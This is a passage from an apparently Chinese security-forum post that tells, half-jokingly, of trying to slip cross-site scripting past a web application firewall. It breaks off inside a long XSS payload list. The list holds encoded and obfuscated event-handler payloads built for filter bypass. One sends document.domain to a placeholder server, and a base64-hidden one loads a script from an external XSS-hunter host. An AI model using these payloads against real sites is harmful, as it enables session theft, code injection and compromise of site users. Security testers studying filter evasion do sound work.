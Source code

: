 ![image-20210703011724380](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-8d5c7e752f243d114079557358d1ac9e889e9c26.png)

然后又开始了漫长的等待ing...

![image-20210703012255228](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-2eb8548847cb520a44c9f64f38c2c946b4d1151e.png)

oh，感觉还不错，出来了一类，似乎这个payload可行，看来是利用一个新事件`ontransitio nstart`。

不过很遗憾，我直接复制这个payload到页面，并不会直接触发事件，鸡肋的，在页面尝试了各种常规操作也不会触发，更加鸡肋，导致我都不愿意去查这个事件该如何触发，正当我一筹莫展的时候，女神(WAF)对我笑了笑说，就这？你就这点本事？

0x4 屌丝的反击
---------

望着女神(WAF)轻蔑的眼神，我的拳头攥得更紧了，难道我的屌丝身份要暴露了？

都说世间最廉价的是，是一无所有的赤诚和一事无成的温柔。

在女神面前，我是多么努力，可惜，在结果导向的世界里，只有好的结果才能被人认可，才能慰藉你的所有努力，要不然，一切都无济于事。

恍惚间，微风拂过，想起某海王对我说过的一句话，"不要怂，干就完事！"

我颤巍巍地打开了珍藏已久的云集各路大神的Xss Payload List, 希望能够扳回一城。

```php
%u003Csvg onLoad=a lert(1)>
%u3008svg onLoad=a lert(2)> 
%uFF1Csvg onLoad=a lert(3)>
<Img Src=//X55.is onLoad=import(src)>
<svg/onLoad=location/**/='https://your.server/'+document.domain>
<iframe/onLoad=aaajavascipt:a lert(1)>
%2sscript%2ua lert()%2s/script%2u
<style>
 x{}</style><xss style="animation-name:x" onanimationend="a lert(1)"></xss>
<a/href="j%0A%0Davascript:{var{3:s,2:h,5:a,0:v,4:n,1:e}='earltv'}[self][0][v+a+e+s](e+s+v+h+n)(/infected/.source)" />click
<INPUT/onfocus=a lert&#x00000000028;1&#x00000000029; autofocus>
<svg onLoad=p rompt%26%230000000040document.domain)>
<svg onLoad=p rompt%26%23x000000028;document.domain)>
<svg onLoad=a lert%26%230000000040"1")>
<math><mtext><h1><a><h6></a></h6><mglyph><svg><mtext><style><a title="</style><img src onerror='a lert(1)'>"></style></h1>
<x/ onpointerRawupdatE=+\u0061\u006cert&DiacriticalGrave;1&DiacriticalGrave;>Tocuch me!
<svg onLoad='new Function`["_Y000!_"].find(al\u0065rt)`'>
<?tag x="-->" test="<img src=x onerror=a lert(1)//">
<x/o nmouSeenter=window[`\x61\x6c\x65\x72\x74`]`1337`
<object/data=javascript:a lert()>
<a/href="javascript%0A%0D:a lert()">
<embed/src=//㎤.㋏>
<svg/onLoad=throw/**/Uncaught=window.onerror=eval,&quot;;a lert\501\51&quot;>
<dialog open onclose=a lert(1)><form method=dialog><button>XSS</button></form>
<svg><animatetransform onbegin=alert(1) attributeName=transform>
<svg/onLoad=throw/**/onerror=alert,1>
"><video><source onerror=e val(atob(http://this.id)) id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vYXlkaW5ueXVudXMueHNzLmh0Ijtkb2N1bWVudC5ib2R5LmFwcGVuZENoaWxkKGEpOw&#61;&#61;>
<image src=validimage.png onLoadend=a lert(1)>
<A%09onmOuSeoVER%0a=%0aa=a lert,a(document.domain)>xss
<x v-html=_c.constructor('a lert(1)')()>
<xss onbeforescriptexecute=a lert(1)><script>1</script>
<style>:target {color:red;}</style><xss id=x style="transition:color 1s" onwebkittransitionend=a lert(1)>
<svg><script href=data:,a lert(1) />
<xss onafterscriptexecute=a lert(1)><script>1</script>
<Brute Data-Spy=scroll 
Data-Target='<Svg onLoad=(confirm)(1)>'>
<brute contenteditable 
```